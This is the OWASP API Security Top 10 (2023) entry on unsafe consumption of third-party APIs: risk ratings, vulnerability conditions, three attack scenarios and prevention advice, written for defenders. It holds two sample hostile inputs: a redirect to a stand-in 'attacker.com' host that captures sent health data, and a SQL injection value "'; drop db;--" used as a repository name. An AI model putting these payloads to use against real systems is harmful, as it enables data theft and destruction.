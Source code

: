 # API10:2023 Unsafe Consumption of APIs

| Threat agents/Attack vectors                                                                                                                                                                                                                     | Security Weakness                                                                                                                                                                                                                                                                                                                                                                   | Impacts                                                                                                                                                                                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| API Specific : Exploitability **Easy**                                                                                                                                                                                                           | Prevalence **Common** : Detectability **Average**                                                                                                                                                                                                                                                                                                                                   | Technical **Severe** : Business Specific                                                                                                                                                                             |
| Exploiting this issue requires attackers to identify and potentially compromise other APIs/services the target API integrated with. Usually, this information is not publicly available or the integrated API/service is not easily exploitable. | Developers tend to trust and not verify the endpoints that interact with external or third-party APIs, relying on weaker security requirements such as those regarding transport security, authentication/authorization, and input validation and sanitization. Attackers need to identify services the target API integrates with (data sources) and, eventually, compromise them. | The impact varies according to what the target API does with pulled data. Successful exploitation may lead to sensitive information exposure to unauthorized actors, many kinds of injections, or denial of service. |

## Is the API Vulnerable?

Developers tend to trust data received from third-party APIs more than user
input. This is especially true for APIs offered by well-known companies.
Because of that, developers tend to adopt weaker security standards, for
instance, in regards to input validation and sanitization.

The API might be vulnerable if:

- Interacts with other APIs over an unencrypted channel;
- Does not properly validate and sanitize data gathered from other APIs prior
  to processing it or passing it to downstream components;
- Blindly follows redirections;
- Does not limit the number of resources available to process third-party
  services responses;
- Does not implement timeouts for interactions with third-party services;

## Example Attack Scenarios

### Scenario #1

An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Scenario #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Bad actors found a way to compromise the third-party API and it starts
responding with a `308 Permanent Redirect` to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Scenario #3

An attacker can prepare a git repository named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repository, SQL injection payload is used on an application that
builds an SQL query believing the repository's name is safe input.

## How To Prevent

- When evaluating service providers, assess their API security posture.
- Ensure all API interactions happen over a secure communication channel (TLS).
- Always validate and properly sanitize data received from integrated APIs
  before using it.
- Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.

## References

### OWASP

- [Web Service Security Cheat Sheet][1]
- [Injection Flaws][2]
- [Input Validation Cheat Sheet][3]
- [Injection Prevention Cheat Sheet][4]
- [Transport Layer Protection Cheat Sheet][5]
- [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

- [CWE-20: Improper Input Validation][7]
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
- [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
